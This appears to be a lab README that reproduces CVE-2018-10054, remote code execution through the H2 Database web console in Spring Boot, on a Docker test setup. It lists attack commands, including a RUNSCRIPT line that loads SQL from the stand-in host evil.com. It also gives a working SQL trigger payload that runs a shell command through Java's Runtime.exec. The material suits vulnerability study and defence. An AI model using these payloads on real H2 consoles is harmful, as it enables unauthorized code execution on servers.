


# H2 Database Web Console Authentication Remote Code Execution (CVE-2018-10054)

[中文版本(Chinese version)](README.zh-cn.md)

H2 database is a fast, open-source Java-based relational database management system (RDBMS) that can be used in both embedded (within a Java application) and client-server modes.

Springboot with h2 database comes with a web management page if you set the following options:

```
spring.h2.console.enabled=true
spring.h2.console.settings.web-allow-others=true
```

H2 Database versions prior to 1.4.198 allow any user to access the web management page by creating a new database file or connecting to an in-memory database. After authentication, an arbitrary code can be executed by one of the following commands:

- `RUNSCRIPT FROM 'http://evil.com/script.sql'`
- `CREATE ALIAS func AS code...; CALL func ...`
- `CREATE TRIGGER ... AS code...`

References:

- <https://mthbernardes.github.io/rce/2018/03/14/abusing-h2-database-alias.html>
- <https://www.exploit-db.com/exploits/45506>
- <https://github.com/h2database/h2database/issues/1225>
- <https://github.com/h2database/h2database/pull/1580>
- <https://github.com/h2database/h2database/pull/1726>

## Setup

Start a spring-boot with h2 database 1.4.197:

```
docker compose up -d
```

After started the container, the spring-boot is listening on `http://your-ip:8080`, the management page is `http://your-ip:8080/h2-console/` by default.

## Vulnerability Reproduce

First, login the H2 web console by connecting to the in-memory database:

```
jdbc:h2:mem:test
```



Then, execute the following commands to execute the `id` command:

```sql
CREATE TRIGGER shell3 BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript
    var is = java.lang.Runtime.getRuntime().exec("id").getInputStream()
    var scanner = new java.util.Scanner(is).useDelimiter("\\A")
    throw new java.lang.Exception(scanner.next())
$$;
```

As you can see, the `id` command is executed successfully and the result is raised as an exception.


